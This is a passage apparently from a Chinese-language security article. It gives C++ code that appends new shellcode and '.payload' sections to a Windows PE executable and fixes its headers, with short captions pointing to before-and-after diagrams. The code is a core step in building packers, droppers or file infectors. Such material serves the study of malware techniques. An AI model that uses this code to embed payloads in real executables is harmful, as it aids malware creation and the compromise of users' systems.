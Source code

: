 ```
::CopyMemory(pishNew, &amp;ishNew, IMAGE_SIZEOF_SECTION_HEADER);
// append new section and copy to output
output.insert(output.end(), target.begin(), target.end());
output.insert(output.end(), this-&gt;shellcode.begin(), this-&gt;shellcode.end());
```

shellcode添加前后的示意图如下所示：

[![](https://p3.ssl.qhimg.com/t01a4e65674b31fdce4.png)](https://p3.ssl.qhimg.com/t01a4e65674b31fdce4.png)

添加载荷section的过程基本相似，代码如下：



```
// append new payload section
// check space for new section header
// get DOS header
pidh = (PIMAGE_DOS_HEADER)output.data();
// get NT headers
pinh = (PIMAGE_NT_HEADERS)((DWORD)output.data() + pidh-&gt;e_lfanew);
// find .text section
pishText = IMAGE_FIRST_SECTION(pinh);
// get last IMAGE_SECTION_HEADER
pishLast = (PIMAGE_SECTION_HEADER)(pishText + (pinh-&gt;FileHeader.NumberOfSections - 1));
pishNew = (PIMAGE_SECTION_HEADER)((DWORD)pishLast + IMAGE_SIZEOF_SECTION_HEADER);
if (pishText-&gt;PointerToRawData - (DWORD)pishNew &lt; IMAGE_SIZEOF_SECTION_HEADER)
    return false;
    
// create new section header
::ZeroMemory(&amp;ishNew, sizeof(ishNew));
::CopyMemory(ishNew.Name, ".payload", 8);
ishNew.Characteristics = IMAGE_SCN_MEM_READ | IMAGE_SCN_CNT_INITIALIZED_DATA;
ishNew.SizeOfRawData = ALIGN(payload.size(), pinh-&gt;OptionalHeader.FileAlignment);
ishNew.VirtualAddress = ALIGN((pishLast-&gt;VirtualAddress + pishLast-&gt;Misc.VirtualSize), pinh-&gt;OptionalHeader.SectionAlignment);
ishNew.PointerToRawData = ALIGN((pishLast-&gt;PointerToRawData + pishLast-&gt;SizeOfRawData), pinh-&gt;OptionalHeader.FileAlignment);
ishNew.Misc.VirtualSize = payload.size();
// fix headers' values
pinh-&gt;FileHeader.NumberOfSections++;
pinh-&gt;OptionalHeader.SizeOfImage = ALIGN((pinh-&gt;OptionalHeader.SizeOfImage + ishNew.Misc.VirtualSize), pinh-&gt;OptionalHeader.SectionAlignment);
pinh-&gt;OptionalHeader.SizeOfHeaders = ALIGN((pinh-&gt;OptionalHeader.SizeOfHeaders + IMAGE_SIZEOF_SECTION_HEADER), pinh-&gt;OptionalHeader.FileAlignment);
// append new section header
::CopyMemory(pishNew, &amp;ishNew, IMAGE_SIZEOF_SECTION_HEADER);
// append new section and copy to output
output.insert(output.end(), payload.begin(), payload.end());
```

载荷添加前后的示意图如下所示：
